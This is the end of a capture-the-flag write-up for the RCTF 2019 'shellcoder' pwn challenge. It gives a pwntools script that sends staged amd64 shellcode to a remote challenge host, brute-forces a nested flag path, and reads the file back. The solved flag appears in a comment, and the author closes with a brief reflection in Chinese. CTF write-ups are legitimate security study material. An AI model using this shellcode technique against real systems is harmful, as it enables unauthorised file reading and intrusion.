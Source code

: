 ```python
def fuck(path):
	print path
	try:
		res,f=exp(path)
		#print f
		if res==[] and "flag" in f:
			log.warning(path)
		elif res!=[]:
			for x in res:
				fuck(path+x+"/flag")
		return

	except:
		return 
def exploit(seek,flag=0):
	p=remote("139.180.215.222",20002)
	context.arch='amd64'
	sh='''
	xchg rdi,rsi
	mov edx,esi
	syscall
	'''
	sh=asm(sh)
	p.sendafter(":",sh)
	sh='''
	mov ax,2
	{}
	mov rdi,rsp
	xor rsi,rsi
	xor rdx,rdx
	syscall

	mov rdi,rax
	mov rsi,rsp
	mov rdx,0x30
	xor rax,rax
	syscall

	mov rdi,1
	mov rsi,rsp
	mov rdx,0x30
	xor rax,rax
	mov al,1
	syscall
	'''.format(push_path(seek))
	p.send("\x90"*0x7+asm(sh))
	data=p.read()
	p.close()
	print data

#fuck("/flag")
exploit("./flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag")
#rctf{1h48iegin3egh8dc5ihu}
```


# Summery

发现虽然做了挺多shellcode但是脑子还是不太好使...第一部分都过不去虽然第二部分只是纯粹的写爆破代码+shellcode to fetch path ...

挺不错的一题挺有意思的。

[1]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/shellcoder
[2]: https://cloud.tencent.com/developer/article/1143454